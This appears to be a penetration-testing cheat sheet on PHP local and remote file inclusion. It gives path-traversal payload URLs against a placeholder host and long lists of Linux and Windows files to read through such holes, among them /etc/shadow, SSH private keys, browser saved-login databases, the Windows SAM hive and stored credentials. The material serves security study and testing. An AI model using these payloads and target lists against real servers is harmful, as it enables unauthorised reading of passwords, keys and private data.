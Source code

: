 ### *What is file inclusion?*
**Remote File Inclusion (RFI)**: The file is loaded from a remote server (Best: You can write the code and the server will execute it). In PHP this is disabled by default (allow_url_include). **Local File Inclusion (LFI)**: The sever loads a local file.

**Vulnerable PHP functions**: require, require_once, include, include_once

> Try to change `/` for `\`
> Try to remove `C:/` and add `../../../../../`
### *Tools*
https://github.com/kurobeats/fimap
https://github.com/xmendez/wfuzz
### *Examples*

### *dot-dot-slash*
**Linux**
You can view hidden files in a web application. Generally web applications are stored in `/var/www/app/` or something similar. 

Locate an endpoint with functionality to retrieve files from the server. 
```
http://vulnerable.com/images/getimage.php?file=image.png
```

Try to escape this and view contents of other files on server. Currently you are in `/var/www/app/`
```
http://vulnerable.com/images/getimage.php?file=../../../../etc/passwd
```

[Use this list of common sensitive Linux files](https://github.com/InfoSecWarrior/Offensive-Payloads/blob/main/Linux-Sensitive-Files.txt)
```
/etc/aliases
/etc/apache2/apache2.conf
/etc/apache2/httpd.conf
/etc/apt/sources.list
/etc/dovecot/dovecot.conf
/etc/environment
/etc/group
/etc/gshadow
/etc/hostname
/etc/hosts
/etc/hosts.allow
/etc/hosts.deny
/etc/httpd/httpd.conf
/etc/issue
/etc/mail/aliases
/etc/mail/sendmail.cf
/etc/mime.types
/etc/mongodb.conf
/etc/my.cnf
/etc/mysql/my.cnf
/etc/network/interfaces
/etc/nginx/nginx.conf
/etc/nsswitch.conf
/etc/passwd
/etc/php/7.4/apache2/php.ini
/etc/php/7.4/cli/php.ini
/etc/php/7.4/fpm/php.ini
/etc/php.ini
/etc/postfix/main.cf
/etc/redis/redis.conf
/etc/resolv.conf
/etc/profile
/etc/samba/smb.conf
/etc/shadow
/etc/ssh/id_dsa
/etc/ssh/id_ecdsa
/etc/ssh/id_ed25519
/etc/ssh/id_rsa
~/.ssh/id_rsa
~/.ssh/id_rsa.pub
/etc/ssh/known_hosts
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/etc/sysctl.conf
/root/.bash_history
/root/.my.cnf
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/var/log/dmessage
/proc/mounts
/root/.ssh/id_rsa
/proc/net/arp
/proc/net/route
/proc/net/tcp
/var/mail/root
/proc/net/udp
/var/log/auth.log
/var/log/secure
/var/log/boot.log
/var/log/cron
/var/log/dmesg
/var/log/lastlog
/var/log/wtmp
/var/log/btmp
/var/log/httpd/access_log
/var/log/httpd/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/mysql/error.log
/var/log/postgresql/postgresql.log
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/auth.log
/var/log/daemon.log
/var/log/kern.log
/var/log/maillog
/var/log/xorg.log
/var/log/alternatives.log
/var/log/dpkg.log
/var/log/faillog
/var/log/user.log
/var/log/cups/error_log
/var/log/yum.log
/var/log/audit/audit.log
/var/log/messages
/var/log/ufw.log
/var/log/clamav/clamav.log
/var/log/sshd.log
/var/log/samba/log.smbd
/var/log/samba/log.nmbd
/var/log/ntp.log
/var/log/cron
/var/log/secure
/var/log/acpid
/var/log/auth.log
/var/log/mail.info
/home/$USER/.config/google-chrome-beta/Default/Login\ Data
/home/$USER/.config/google-chrome/Default/Login\ Data
/home/$USER/.config/google-chrome/Default/Session\ Storage/LOG
/home/$USER/.config/Code/Cookies
/home/$USER/.config/Code/databases/Databases.db
/home/$USER/.config/google-chrome/Default/databases/Databases.db
/home/$USER/.config/google-chrome-beta/Default/databases/Databases.db
/home/$USER/.config/Code/CachedProfilesData/__default__profile__/extensions.user.cache
/home/$USER/.config/google-chrome/Default/Web\ Data
/home/$USER/.config/google-chrome/Default/Session Storage/LOG
/home/$USER/.config/google-chrome/Default/Preferences
```

**Windows**
Similarly, if the web application runs on a Windows server, the attacker needs to provide Windows paths. For example, if the attacker wants to read the `boot.ini` file located in `c:\boot.ini`, then the attacker can try the following depending on the target OS version:
```
http://vulnerable.com/images/getimage.php?file=c:\boot.ini
```

[Use this list of common sensitive windows files.](https://github.com/InfoSecWarrior/Offensive-Payloads/blob/main/Windows-Sensitive-Files.txt)
```
C:\Windows\System32\config\SAM
C:\inetpub\logs\LogFiles
C:\inetpub\wwwroot
C:\inetpub\wwwroot\default.htm
C:\laragon\bin\php\php.ini
C:\php\php.ini
C:\Users\{username}\Documents
C:\Users\{username}\AppData\Local\FileZilla
C:\Users\{username}\AppData\Local\FileZilla\cache.xml
C:\Users\{username}\AppData\Local\Google\Chrome\User Data\Default\Login Data
C:\Users\{username}\AppData\Local\Microsoft\Windows\UsrClass.dat
C:\Users\{username}\AppData\Local\Programs\Microsoft VS Code\updater.log
C:\Users{username}\AppData\Roaming\Code\User\settings.json
C:\Users\{username}\AppData\Roaming\Code\User\workspaceStorage
C:\Users\{username}\AppData\Roaming\FileZilla\filezilla-server.xml
C:\Users\{username}\AppData\Roaming\FileZilla\filezilla.xml
C:\Users\{username}\AppData\Roaming\FileZilla\logs
C:\Users\{username}\AppData\Roaming\FileZilla\recentservers.xml
C:\Users\{username}\AppData\Roaming\FileZilla\sitemanager.xml
C:\Users\{username}\AppData\Roaming\Microsoft\Credentials
C:\Users\{username}\AppData\Roaming\Microsoft\Outlook
C:\Users\{username}\NTUSER.DAT
C:\Users\{username}\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
C:\wamp\bin\php\php.ini
C:\Windows\php.ini
C:\Windows\System32\config
C:\Windows\system32\config\NTUSER.DAT
C:\Windows\System32\drivers\etc\hosts
C:\Windows\System32\GroupPolicy
C:\Windows\System32\GroupPolicyUsers
C:\Windows\System32\inetsrv\config\administration.config
C:\Windows\System32\inetsrv\config\applicationHost.config
C:\Windows\System32\inetsrv\config\applicationHost.hist
C:\Windows\System32\inetsrv\config\monitoring\global.xml
C:\Windows\System32\inetsrv\config\redirection.config
C:\Windows\System32\inetsrv\config\schema\applicationHost.xsd
C:\Windows\System32\inetsrv\config\schema\ASPNET_schema.xml
C:\Windows\System32\inetsrv\config\schema\dotnetconfig.xsd
C:\Windows\System32\inetsrv\config\schema\IISProvider_schema.xml
C:\Windows\System32\inetsrv\config\schema\IIS_schema.xml
C:\Windows\System32\inetsrv\config\schema\rewrite_schema.xml
C:\Windows\System32\LogFiles
C:\Windows\System32\LogFiles\W3SVC1
C:\Windows\System32\winevt\Logs
C:\Windows\system.ini
C:\Windows\Prefetch
C:\xampp\apache\conf\extra\httpd-ssl.conf
C:\xampp\apache\conf\extra\httpd-vhosts.conf
C:\xampp\apache\conf\httpd.conf
C:\xampp\apache\logs\access.log
C:\xampp\apache\logs\php_error_log
C:\xampp\phpMyAdmin\config.inc.php
C:\xampp\php\php.ini
C:\xampp\xampp-control.log
```
